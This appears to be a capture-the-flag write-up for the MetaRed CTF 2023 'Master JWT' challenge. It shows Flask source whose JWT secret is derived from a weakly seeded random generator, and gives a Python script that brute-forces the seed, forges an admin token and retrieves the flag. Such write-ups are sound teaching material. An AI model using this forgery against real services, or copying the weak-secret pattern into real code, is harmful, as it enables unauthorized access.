 ```yaml
---
title: MetaRed CTF 2023 - Master JWT
date: Thu Oct 26 04:02:03 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,web,python,jwt]
---
```


## Description

![master-jwt-description](/assets/images/metared/2023/master-jwt-description.png)

<https://jwt.ctf.cert.unlp.edu.ar>

Source:

```py
from flask import Flask, request, jsonify, make_response
from flask_limiter import Limiter
from jwt import decode, encode, exceptions
import random
from random import randint
import os
from flask import Flask
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

app = Flask(__name__)

limiter = Limiter(
    app=app,
    default_limits=["2 per minute"],
    key_func=get_remote_address,
)

random.seed(f"Sup3S4f3{randint(0, 1000)}")

app.secret_key = f"Sup3S4f3{randint(0, 1000000000000)}"

FLAG = os.environ.get("FLAG", "CTF{fake_flag}")

@app.route('/', methods=['GET'])
@limiter.limit("2 per minute")
def index():
    jwt_token = request.headers.get('Authorization')

    if not jwt_token:
        response = make_response(jsonify({"error": "Missing JWT token"}), 401)
        new_token = encode({"user": "non privileged"}, app.secret_key, algorithm='HS256')
        response.headers['WWW-Authenticate'] = f'Bearer {new_token}'
        return response
    
    try:
        payload = decode(jwt_token, app.secret_key, algorithms=['HS256'])
        user = payload.get('user', '')
        
        if user.lower() == 'admin':
            return jsonify({"flag": FLAG}), 200
        else:
            return jsonify({"error": "Not authorized"}), 403

    except exceptions.InvalidTokenError:
        return jsonify({"error": "Invalid JWT token"}), 401
    

app.run(debug=False, host="0.0.0.0",port=1337)
```

## Solution

The jwt is using a secret generated from random value, this is unsecure because it's first using seed and then random. If seed is found all other "random" values will also be found.

First lets get the JWT token generated by application.

```powershell
➜ curl -I https://jwt.ctf.cert.unlp.edu.ar
HTTP/1.1 401 UNAUTHORIZED
server: Werkzeug/3.0.0 Python/3.9.18
date: Thu, 26 Oct 2023 12:00:55 GMT
content-type: application/json
content-length: 30
www-authenticate: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibm9uIHByaXZpbGVnZWQifQ.dNxWC7BTKLZqKoqDd-XCWE2MOC7lElrRVdJpbLSxR4M
```

Bruteforce the seed:

```py
from jwt import encode
import random
from random import randint
import requests

URL = 'https://jwt.ctf.cert.unlp.edu.ar'
target = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibm9uIHByaXZpbGVnZWQifQ.dNxWC7BTKLZqKoqDd-XCWE2MOC7lElrRVdJpbLSxR4M'

for i in range(1001):
    random.seed(f"Sup3S4f3{i}")
    secret_key = f"Sup3S4f3{randint(0, 1000000000000)}"
    token = encode({"user": "non privileged"}, secret_key, algorithm='HS256')
    if token == target:
        print()
        print("Key Found:", secret_key)
        break
    print(f'\rTrying {secret_key=}', end='')


token = encode({"user": "admin"}, secret_key, algorithm='HS256')
print("Admin Token:", token)

resp = requests.get(URL, headers={"Authorization": token})
print(resp.text)
```

```bash
└─$ python solve.py
Trying secret_key='Sup3S4f3499870157290'
Key Found: Sup3S4f3789214526580
Admin Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.FFNcWmXDu-hxFMSo424FA5OXVT9NkWG-zGGA82oSQZ0
{"flag":"flag{JwT_M4st3r!!!!}"}
```

> Flag: flag{JwT_M4st3r!!!!}
{: .prompt-tip }